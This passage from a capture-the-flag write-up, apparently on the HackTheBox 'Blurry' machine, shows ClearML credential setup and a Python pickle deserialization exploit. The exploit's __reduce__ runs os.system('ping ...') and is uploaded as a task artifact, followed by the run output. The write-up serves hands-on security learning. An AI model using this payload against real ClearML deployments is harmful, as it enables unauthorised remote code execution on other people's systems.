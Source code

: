 Next instruction is to run `clearml-init`, which prompts for a configuration:

```

(venv) oxdf@hacky$ clearml-init
ClearML SDK setup process

Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration) 
Or create a free account at https://app.clear.ml/settings/workspace-configuration

In settings page, press "Create new credentials", then press "Copy to clipboard".

Paste copied configuration here:

```

The “Get New Credentials” button on the site gives the format needed:

![image-20240610105005243](/img/image-20240610105005243.png)

This saves these creds to `~/clearml.conf`.

### Create Task

I’ll try creating a task with the same code shown in the blog post. Rather than write the payload to a file and then read it in, I’ll just append to the previous script:

```

#!/usr/bin/env python3

import pickle
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        return (os.system, ('ping -c 1 10.10.14.6',))

command = RunCommand()

task = Task.init(project_name="Black Swan", task_name="0xdfping")
task.upload_artifact(name="sploit", artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")

```

Running this creates the task:

```

(venv) oxdf@hacky$ python exploit.py 
ClearML Task: created new task id=43f7d9822a12439eaacab654e077782e
2024-06-10 15:52:16,102 - clearml.Task - INFO - No repository found, storing script code instead
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/43f7d9822a12439eaacab654e077782e/output/log
2024-06-10 15:52:17,359 - clearml.Task - INFO - Waiting for repository detection and full package requirement analysis
2024-06-10 15:52:17,585 - clearml.Task - INFO - Finished repository detection and package analysis
ClearML Monitor: GPU monitoring failed getting GPU reading, switching off GPU monitoring

```
